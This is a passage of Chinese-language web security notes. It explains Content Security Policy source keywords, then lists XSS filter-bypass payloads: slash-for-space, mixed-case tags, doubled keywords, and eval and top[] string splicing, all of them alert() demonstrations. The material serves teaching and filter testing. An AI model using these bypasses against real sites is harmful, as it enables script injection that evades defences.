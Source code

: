 **关键词**

| 属性值                              | 示例                                        | 说明                                                         |
| ----------------------------------- | ------------------------------------------- | ------------------------------------------------------------ |
| *                                   | img-src *                                   | 允许从任意url加载，除了data:blob:filesystem:schemes          |
| 'none'                              | object-src 'none'                           | 禁止从任何url加载资源                                        |
| 'self'                              | img-src 'self'                              | 只可以加载同源资源                                           |
| data:                               | img-src 'self' data:                        | 可以通过data协议加载资源                                     |
| domain.example.com                  | ing-src domain.example.com                  | 只可以从特定的域加载资源                                     |
| *.example.com                       | img-src *.example.com                       | 可以从任意example.com的子域处加载资源                        |
| [https://cdn.com](https://cdn.com/) | img-src [https://cdn.com](https://cdn.com/) | 只能从给定的域用https加载资源                                |
| https:                              | img-src https:                              | 只能从任意域用https加载资源                                  |
| 'unsafe-inline'                     | script-src 'unsafe-inline'                  | 允许内部资源执行代码例如style attribute,onclick或者是sicript标签 |
| 'unsafe-eval'                       | script-src 'unsafe-eval'                    | 允许一些不安全的代码执行方式，例如js的eval()                 |



##### 过滤空格

用`/`代替空格

```html
<img/src="x"/onerror=alert("xss");>
```

#### 过滤关键字

##### 大小写绕过

```html
<ImG sRc=x onerRor=alert("xss");>
```

##### 双写关键字

有些waf可能会只替换一次且是替换为空，这种情况下我们可以考虑双写关键字绕过

```html
<imimgg srsrcc=x onerror=alert("xss");>
```

##### 字符拼接

利用eval

```html
<img src="x" onerror="a=`aler`;b=`t`;c='(`xss`);';eval(a+b+c)">
```

利用top

```html
<script>top["al"+"ert"](`xss`);</script>
```
